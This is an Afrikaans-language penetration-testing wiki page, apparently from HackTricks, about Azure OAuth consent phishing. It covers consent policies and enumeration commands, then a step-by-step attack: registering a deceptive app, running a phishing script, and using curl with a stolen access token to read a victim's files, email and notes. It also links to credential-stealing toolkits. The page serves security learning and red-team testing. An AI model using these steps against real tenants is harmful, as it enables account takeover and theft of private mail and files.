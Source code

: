 # Az - OAuth Apps Phishing

{{#include ../../../banners/hacktricks-training.md}}

## OAuth App Phishing

**Azure Toepassings** is geconfigureer met die toestemmings wat hulle sal kan gebruik wanneer 'n gebruiker die toepassing goedkeur (soos om die gids te enumereer, toegang tot lêers te verkry, of ander aksies uit te voer). Let daarop dat die toepassing namens die gebruiker sal optree, so selfs al kan die app om administratiewe toestemmings vra, as die **gebruiker wat dit goedkeur nie daardie toestemming het nie**, sal die app **nie administratiewe aksies kan uitvoer nie**.

### App goedkeurings toestemmings

Standaard kan enige **gebruiker toestemming gee aan toepassings**, alhoewel dit geconfigureer kan word sodat gebruikers slegs toestemming kan gee aan **toepassings van geverifieerde uitgewers vir geselekteerde toestemmings** of om selfs **die toestemming te verwyder** vir gebruikers om toestemming aan toepassings te gee.

<figure><img src="../../../images/image.png" alt=""><figcaption></figcaption></figure>

As gebruikers nie toestemming kan gee nie, kan **administrateurs** soos `GA`, `Application Administrator` of `Cloud Application` `Administrator` **die toepassings goedkeur** wat gebruikers sal kan gebruik.

Boonop, as gebruikers slegs toestemming kan gee aan toepassings wat **lae risiko** toestemmings gebruik, is hierdie toestemmings standaard **openid**, **profile**, **email**, **User.Read** en **offline_access**, alhoewel dit moontlik is om **meer** aan hierdie lys toe te voeg.

En as hulle toestemming kan gee aan alle toepassings, kan hulle toestemming gee aan alle toepassings.

### 2 Tipes aanvalle

- **Ongemagtig**: Van 'n eksterne rekening 'n toepassing met die **lae risiko toestemmings** `User.Read` en `User.ReadBasic.All` skep, phish 'n gebruiker, en jy sal toegang tot gidsinligting kan verkry.
- Dit vereis dat die gephishde gebruiker **in staat is om OAuth-toepassings van 'n eksterne huurder te aanvaar**
- As die gephishde gebruiker 'n admin is wat **enige toepassing met enige toestemmings kan goedkeur**, kan die toepassing ook **privilegeerde toestemmings aan vra**
- **Gemagtig**: Nadat 'n prinsiep met genoeg voorregte gecompromitteer is, **skep 'n toepassing binne die rekening** en **phish** 'n paar **privilegeerde** gebruikers wat privilegeerde OAuth-toestemmings kan aanvaar.
- In hierdie geval kan jy reeds toegang tot die inligting van die gids verkry, so die toestemming `User.ReadBasic.All` is nie meer interessant nie.
- Jy is waarskynlik geïnteresseerd in **toestemmings wat 'n admin moet toeken**, omdat 'n gewone gebruiker nie enige toestemming aan OAuth-toepassings kan gee nie, daarom moet jy **slegs daardie gebruikers phish** (meer oor watter rolle/toestemmings hierdie voorregte toeken later).

### Gebruikers mag toestemming gee

Let daarop dat jy hierdie opdrag vanaf 'n gebruiker binne die huurder moet uitvoer, jy kan nie hierdie konfigurasie van 'n eksterne huurder vind nie. Die volgende cli kan jou help om die gebruikers se toestemmings te verstaan:
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/authorizationPolicy"
```
- Gebruikers kan toestemming gee vir alle toepassings: As jy binne **`permissionGrantPoliciesAssigned`** kan vind: `ManagePermissionGrantsForSelf.microsoft-user-default-legacy` dan kan gebruikers elke toepassing aanvaar.
- Gebruikers kan toestemming gee vir toepassings van geverifieerde uitgewers of jou organisasie, maar net vir die toestemmings wat jy kies: As jy binne **`permissionGrantPoliciesAssigned`** kan vind: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team` dan kan gebruikers elke toepassing aanvaar.
- **Deaktiveer gebruikers toestemming**: As jy binne **`permissionGrantPoliciesAssigned`** net kan vind: `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-chat` en `ManagePermissionGrantsForOwnedResource.microsoft-dynamically-managed-permissions-for-team` dan kan gebruikers nie enige toestemming gee nie.

Dit is moontlik om die betekenis van elke van die kommentaarbeleide te vind in:
```bash
az rest --method GET --url "https://graph.microsoft.com/v1.0/policies/permissionGrantPolicies"
```
### **Toepassing Administrateurs**

Kontroleer gebruikers wat as toepassing administrateurs beskou word (kan nuwe toepassings aanvaar):
```bash
# Get list of roles
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles"

# Get Global Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1b2256f9-46c1-4fc2-a125-5b2f51bb43b7/members"

# Get Application Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/1e92c3b7-2363-4826-93a6-7f7a5b53e7f9/members"

# Get Cloud Applications Administrators
az rest --method GET --url "https://graph.microsoft.com/v1.0/directoryRoles/0d601d27-7b9c-476f-8134-8e7cd6744f02/members"
```
## **Aanvalstroom Oorsig**

Die aanval behels verskeie stappe wat 'n generiese maatskappy teiken. Hier is hoe dit mag ontvou:

1. **Domeinregistrasie en Toepassing Hosting**: Die aanvaller registreer 'n domein wat op 'n betroubare webwerf lyk, byvoorbeeld, "safedomainlogin.com". Onder hierdie domein word 'n subdomein geskep (bv. "companyname.safedomainlogin.com") om 'n toepassing te huisves wat ontwerp is om magtigingskode te vang en toegangstokens aan te vra.
2. **Toepassing Registrasie in Azure AD**: Die aanvaller registreer dan 'n Multi-Tenant Toepassing in hul Azure AD Tenant, en noem dit na die teikenmaatskappy om wettig te lyk. Hulle stel die toepassing se Oorgangs-URL in om na die subdomein te wys wat die kwaadwillige toepassing huisves.
3. **Instelling van Toestemmings**: Die aanvaller stel die toepassing op met verskeie API-toestemmings (bv. `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`). Hierdie toestemmings, sodra dit deur die gebruiker toegestaan is, laat die aanvaller toe om sensitiewe inligting namens die gebruiker te onttrek.
4. **Verspreiding van Kwaadwillige Skakels**: Die aanvaller skep 'n skakel wat die kliënt-id van die kwaadwillige toepassing bevat en deel dit met teikengebruikers, wat hulle mislei om toestemming te gee.

## Voorbeeld Aanval

1. Registreer 'n **nuwe toepassing**. Dit kan slegs vir die huidige gids wees as jy 'n gebruiker van die aangevalde gids gebruik of vir enige gids as dit 'n eksterne aanval is (soos in die volgende beeld).
1. Stel ook die **oorgangs-URI** in op die verwagte URL waar jy die kode wil ontvang om die tokens te kry (`http://localhost:8000/callback` per standaard).

<figure><img src="../../../images/image (1).png" alt=""><figcaption></figcaption></figure>

2. Skep dan 'n toepassing geheim:

<figure><img src="../../../images/image (2).png" alt=""><figcaption></figcaption></figure>

3. Kies API-toestemmings (bv. `Mail.Read`, `Notes.Read.All`, `Files.ReadWrite.All`, `User.ReadBasic.All`, `User.Read`)

<figure><img src="../../../images/image (3).png" alt=""><figcaption></figcaption></figure>

4. **Voer die webblad uit (**[**azure_oauth_phishing_example**](https://github.com/carlospolop/azure_oauth_phishing_example)**)** wat om die toestemmings vra:
```bash
# From https://github.com/carlospolop/azure_oauth_phishing_example
python3 azure_oauth_phishing_example.py --client-secret <client-secret> --client-id <client-id> --scopes "email,Files.ReadWrite.All,Mail.Read,Notes.Read.All,offline_access,openid,profile,User.Read"
```
5. **Stuur die URL na die slagoffer**
1. In hierdie geval `http://localhost:8000`
6. **Slagoffers** moet die **prompt aanvaar:**

<figure><img src="../../../images/image (4).png" alt=""><figcaption></figcaption></figure>

7. Gebruik die **toegangsteken om die versoekte toestemmings te verkry**:
```bash
export ACCESS_TOKEN=<ACCESS_TOKEN>

# List drive files
curl -X GET \
https://graph.microsoft.com/v1.0/me/drive/root/children \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List eails
curl -X GET \
https://graph.microsoft.com/v1.0/me/messages \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"

# List notes
curl -X GET \
https://graph.microsoft.com/v1.0/me/onenote/notebooks \
-H "Authorization: Bearer $ACCESS_TOKEN" \
-H "Accept: application/json"
```
## Ander Gereedskap

- [**365-Stealer**](https://github.com/AlteredSecurity/365-Stealer)**:** Gaan na [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer) om te leer hoe om dit te konfigureer.
- [**O365-Attack-Toolkit**](https://github.com/mdsecactivebreach/o365-attack-toolkit)

## Post-Exploitasie

### Phishing Post-Exploitasie

Afhangende van die versoekte toestemmings mag jy in staat wees om **verskillende data van die huurder te bekom** (lys gebruikers, groepe... of selfs instellings te wysig) en **inligting van die gebruiker** (lêers, notas, e-posse...). Dan kan jy hierdie toestemmings gebruik om daardie aksies uit te voer.

### Aansoek Post Exploitasie

Gaan die Aansoeke en Dienshoofstukke van die bladsy na:

{{#ref}}
../az-privilege-escalation/az-entraid-privesc/
{{#endref}}

## Verwysings

- [https://www.alteredsecurity.com/post/introduction-to-365-stealer](https://www.alteredsecurity.com/post/introduction-to-365-stealer)
- [https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/](https://swisskyrepo.github.io/InternalAllTheThings/cloud/azure/azure-phishing/)

{{#include ../../../banners/hacktricks-training.md}}
